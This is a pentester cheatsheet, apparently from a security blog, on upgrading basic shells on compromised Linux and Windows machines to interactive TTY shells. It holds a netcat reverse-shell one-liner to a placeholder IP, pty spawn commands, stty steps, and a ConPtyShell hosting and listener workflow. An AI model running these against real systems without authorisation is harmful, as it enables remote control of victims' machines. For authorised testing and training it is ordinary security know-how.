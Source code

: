 ```yaml
---
title: "Upgrading an Autocomplete TTY Shell on Linux and Windows: A Guide for Pentesters"
date: 2024-11-06 10:10:00 +0700
categories: [Cheatsheets]
tags: [Cheatsheets, tty-shell, autocomplete]
pin: false
---
```


## Upgrading an Autocomplete TTY Shell on Linux and Windows: A Guide for Pentesters

### Introduction

When working with command-line interfaces on compromised machines, it is common to be limited to basic TTY shells that lack essential features like autocomplete and history. Upgrading these shells can significantly improve usability and efficiency during post-exploitation. This guide covers methods to upgrade TTY shells on both Linux and Windows targets to provide functionalities such as command history and tab completion, making them easier to work with.

### Verify Installed Language(s)

Before attempting to upgrade or interact with shells, it's important to verify which interpreters and shells are available on the target system. This helps determine the best approach to proceed. Here's how to check which interpreters or shells are installed:

```shell
# Check if Python is installed and its location
which python    # Output will show the path if Python 2.x is installed

# Check for Python 3 installation
which python3   # Output will show the path if Python 3.x is installed

# Verify if Bash is available
which bash      # Output will show the path if Bash is installed

# Check for PowerShell on a Linux machine (if applicable)
which pwsh      # This shows if PowerShell Core is available on Linux

# For Windows, check in Command Prompt or PowerShell for presence
where python    # Equivalent to 'which' in Windows
where python3
where bash
```

### Examples

Below are commands to help upgrade the basic TTY shell:

```bash
# Use Python 3 to spawn an upgraded shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Use Python 2 to spawn an upgraded shell
python -c 'import pty; pty.spawn("/bin/bash")'

# Alternative approach with os.system
echo os.system('/bin/bash')

# Spawn an interactive shell with /bin/sh
/bin/sh -i

# Use Perl to execute a shell
perl -e 'exec "/bin/sh";'

# Use Ruby to execute a shell
ruby -e 'exec "/bin/sh"'
```

### If Python Isn't Installed, Use:

```shell
# Use the script command to spawn an upgraded shell
script /dev/null -c bash
/usr/bin/script -qc /bin/bash /dev/null
```

### Reverse Shell Example

```bash
# Simple reverse shell using Netcat
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.xxx.xxx 9001 >/tmp/f
```

### Steps to Get an Autocomplete Shell

1. After choosing one of the methods above to upgrade your TTY shell, suspend it using:

    ```bash
    ctrl-z
    ```

2. On the attacker's machine, run:

    ```bash
    stty raw -echo
    stty -a  # Verify current terminal settings
    ```

3. Bring the shell to the foreground:

    ```bash
    fg
    stty raw -echo; fg
    ```

4. On the victim's machine, configure the shell:

    ```bash
    stty rows $x columns $y  # Set remote shell to x number of rows & y columns
    export TERM=xterm-256color  # Allows you to clear console and have color output
    ```

5. Press `Enter` twice to reactivate the session.

Now you should have a shell with autocomplete, history, and better usability features.


To have autocomplete on a Windows machine, you can also use:

- <a href="https://github.com/antonioCoco/ConPtyShell" target="_blank">ConPtyShell</a>

## A simple guide how you could use it:

To upgrade to an advanced shell on a Windows target using PowerShell, you can leverage the ConPtyShell method. Below is an example workflow for hosting and running the script:

On Kali Linux (Attacker's Machine)
```bash
# Host the PowerShell script
python3 -m http.server 80  
# to host Invoke-ConPtyShell.ps1

# In another terminal on Kali
stty raw -echo; (stty size; cat) | nc -lvnp 9001
```

To have autocomplete on a Linux machine, you can also use:

- <a href="https://github.com/brightio/penelope" target="_blank">penelope</a>

```shell
# Clone the repo, go to the directory and use the command:
./penelope.py 5555 -i eth0

# For more guidance, go to the repo.
```

### Conclusion

Upgrading to a TTY shell with autocomplete makes working on target systems much easier for pentesters. It helps you type commands faster, find past commands quickly, and move around more efficiently. This saves time and reduces mistakes, making the job smoother and simpler. Whether you’re working on Linux or Windows, having an upgraded shell makes interacting with the system more comfortable and productive.
